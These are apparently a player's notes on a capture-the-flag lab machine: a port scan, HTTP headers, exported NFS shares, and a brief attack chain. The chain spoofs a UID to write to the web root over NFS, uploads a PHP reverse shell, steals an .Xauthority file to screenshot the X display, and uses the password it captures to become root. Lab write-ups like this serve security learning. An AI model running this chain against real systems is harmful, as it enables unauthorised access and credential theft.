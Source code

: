 | HOST         | PORT | PROTO | SERVICE      | VERSION                 |
| ------------ | ---- | ----- | ------------ | ----------------------- |
| 10.10.11.191 | 111  | tcp   | nfs          | 2-4                     |
| 10.10.11.191 | 2049 | tcp   | nfs          | 3-4                     |
| 10.10.11.191 | 22   | tcp   | OpenSSH      | 8.2p1 Ubuntu 4ubuntu0.5 |
| 10.10.11.191 | 80   | tcp   | Apache httpd | 2.4.41                  |


## HEADERS
---
HTTP/1.1 200 OK
Date: Wed, 05 Jul 2023 22:56:30 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Tue, 27 Dec 2022 15:35:01 GMT
ETag: "7f14-5f0d0fec87768"
Accept-Ranges: bytes   
Content-Length: 32532
Vary: Accept-Encoding
Content-Type: text/html

---

## DIRECTORIES
---
/home/ross 
/var/www/html

---

## USERS
---

---

## NOTES
---
`shomount -e 10.10.11.191`
/home/ross    
/var/www/html 

mount ross directory
`sudo mount -t nfs 10.10.11.191:/home/ross /tmp/mnt -nolock`
nothing

cant mount ``/var/www/html`
add new user that can access it
````
sudo useradd ross
sudo usermod -u 2017 ross
sudo groupmod -g 2017
su ross
````
directory is writable and the site runs php

Upload PHP reverse shell and get shell as alex

open webserver as ross and download .Xauthority as alex
`
`XAUTHORITY=/tmp/.Xauthority xwd -root -screen -silent -display :0 > /tmp/out.xwd
move it to `/var/www/html`
mount it and move it out 

use the password in the screenshot
`su -`



---
